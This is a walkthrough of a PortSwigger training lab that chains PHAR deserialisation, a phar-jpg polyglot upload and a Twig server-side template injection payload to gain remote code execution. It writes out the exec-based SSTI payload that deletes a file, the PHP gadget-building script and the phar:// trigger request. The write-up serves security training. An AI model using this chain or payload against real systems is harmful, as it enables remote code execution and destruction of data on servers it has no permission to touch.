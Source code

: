 # Using PHAR deserialisation to deploy a custom gadget chain

## Description

[This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-phar-deserialization-to-deploy-a-custom-gadget-chain) does not explicitly use deserialisation. However, if you combine PHAR deserialisation with other advanced hacking techniques, you can still achieve remote code execution via a custom gadget chain. 

## Reproduction and proof of concept

1. The website has a feature for uploading your own avatar, which only accepts JPG images. Upload a valid JPG as your avatar. It is loaded using `GET /cgi-bin/avatar.php?avatar=wiener`.

![Serialisation](/_static/images/ser12.png)

2. In Burp Repeater, request `GET /cgi-bin` to find an index that shows a `Blog.php` and `CustomTemplate.php` file. Obtain the source code by requesting the files using the `.php~` backup extension.

`Blog.php`:

```text
<?php

require_once('/usr/local/envs/php-twig-1.19/vendor/autoload.php');

class Blog {
    public $user;
    public $desc;
    private $twig;

    public function __construct($user, $desc) {
        $this->user = $user;
        $this->desc = $desc;
    }

    public function __toString() {
        return $this->twig->render('index', ['user' => $this->user]);
    }

    public function __wakeup() {
        $loader = new Twig_Loader_Array([
            'index' => $this->desc,
        ]);
        $this->twig = new Twig_Environment($loader);
    }

    public function __sleep() {
        return ["user", "desc"];
    }
}

?>
```

`CustomTemplate.php`:

```text
<?php

class CustomTemplate {
    private $template_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
    }

    private function isTemplateLocked() {
        return file_exists($this->lockFilePath());
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lockFilePath(), "") === false) {
                throw new Exception("Could not write to " . $this->lockFilePath());
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        @unlink($this->lockFilePath());
    }

    private function lockFilePath()
    {
        return 'templates/' . $this->template_file_path . '.lock';
    }
}

?>
```

3. Study the source code and identify the gadget chain involving the `Blog->desc` and `CustomTemplate->lockFilePath` attributes.
4. The `file_exists()` filesystem method is called on the `lockFilePath` attribute.
5. Notice that the website uses the Twig template engine. You can use deserialisation to pass in an server-side template injection (SSTI) payload. Find a documented SSTI payload for remote code execution on [Twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig), and adapt it to delete Carlos's file:

```text
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

6. Write some PHP for creating a `CustomTemplate` and `Blog` containing the SSTI payload:

```text
class CustomTemplate {}
class Blog {}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';
$blog->user = 'user';
$object->template_file_path = $blog;
```

7. Create a [phar-jpg polyglot](https://github.com/kunte0/phar-jpg-polyglot) containing the PHP script. 
8. Upload this file as your avatar.
9. In Burp Repeater, modify the request line to deserialise your malicious avatar using a `phar:// stream` as follows:

```text
GET /cgi-bin/avatar.php?avatar=phar://wiener
```
    
10. Send the request to solve the lab.

![Serialisation](/_static/images/ser13.png)

## Exploitability

An attacker will need to log in to `wiener:peter`; and delete the `morale.txt` file from Carlos's home directory. 
